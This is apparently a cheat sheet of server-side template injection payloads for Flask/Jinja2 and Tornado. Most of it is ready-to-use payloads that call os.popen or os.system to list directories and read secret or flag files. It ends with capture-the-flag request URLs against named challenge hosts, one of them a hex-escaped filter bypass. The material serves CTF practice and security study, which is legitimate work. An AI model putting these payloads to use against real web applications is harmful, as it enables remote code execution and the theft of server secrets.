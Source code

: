 ### Server Side Template Injection

---

Server side template injection is possible when an attacker injects template directive as user input that can execute arbitrary code on the server.
Example of a vulnerability : 

```py
{{5*5}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```

---

#### Flask payload for Jinja2 : 
#### Config objects

The current configuration object : flask.config

Start with payload : `{{config.items()}}`
Then inject the second payload : `{{config.from_object('os')}}


```py
{{config.__class__.__init__.__globals__['os'].popen('cat flaskr/protected/burdellsecrets.txt').read()}}
{{config.__class__.__init__.__globals__['os'].popen('cat /home/ctf/flag.txt').read()}}
{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}
{{config}}
```

---

#### Tornado payload

```py
{%import%20os%}{{os.popen("ls").read() }}
{% import os %}{{ os.popen("ls").read() }}
{{globals()}}
{% import os %}{{os.getcwd()}}
{% import os %}{{os.listdir(/home/tornado)}}
{% import os %}{{os.system(r"lookatme.txt")}}
{{help(object name)}}

```

```py
ctf payloads

http://chall.battlectf.online:8085/?capital={{%20().__class__.__base__.__subclasses__()[354](%22cat%20flag.txt%22,%20shell=True,%20stdout=-1).communicate()[0].strip()}}

SSTI with bypass
http://chall.battlectf.online:8086/?capital={{request|attr(%27application%27)|attr(%27\x5f\x5fglobals\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f%27)(%27os%27)|attr(%27\x70\x6f\x70\x65\x6e%27)(%27cat%20flag\x2etxt%27)|attr(%27read%27)()}}
```
